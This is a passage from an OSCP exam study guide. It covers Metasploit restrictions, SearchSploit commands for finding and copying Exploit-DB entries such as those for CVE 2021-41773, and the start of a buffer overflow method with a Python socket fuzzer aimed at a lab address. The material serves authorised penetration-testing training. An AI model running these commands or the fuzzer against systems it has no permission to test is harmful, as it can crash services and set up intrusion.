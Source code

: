 ```bash
```

### OSCP Restrictions

**Important Note**: The OSCP exam restricts the use of Metasploit. You can only use Metasploit (including msfvenom) for one machine in the exam. For all other machines, you must use manual exploitation techniques.

## SearchSploit

SearchSploit is a command-line search tool for Exploit-DB that allows you to search for exploits offline.

```bash
# Basic search
searchsploit apache 2.4.49

# Detailed output
searchsploit -p 50572

# Search by CVE
searchsploit --cve 2021-41773

# Copy exploit to current directory
searchsploit -m 50572

# Update the database
searchsploit -u
```

## Manual Exploitation Techniques

### Buffer Overflow Exploitation

#### Tools for Buffer Overflow
1. **Immunity Debugger**: Windows debugger for analyzing vulnerable applications
2. **SPIKE**: Fuzzing tool for finding buffer overflows
3. **Pattern_create.rb/pattern_offset.rb**: Tools for finding the exact offset
4. **Mona.py**: Plugin for Immunity Debugger to assist in exploit development

#### Buffer Overflow Methodology
1. **Fuzzing**: Send increasingly long strings to identify vulnerable parameters
   ```python
   #!/usr/bin/python
   import socket
   
   buffer = "A" * 100
   while len(buffer) <= 4000:
       try:
           s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
           s.connect(("192.168.1.10", 9999))
           s.send(buffer + "\r\n")
           s.close()
           print("Sent buffer of length: {}".format(len(buffer)))
           buffer = buffer + "A" * 100
       except:
           print("Application crashed at buffer length: {}".format(len(buffer)))
           break
   ```
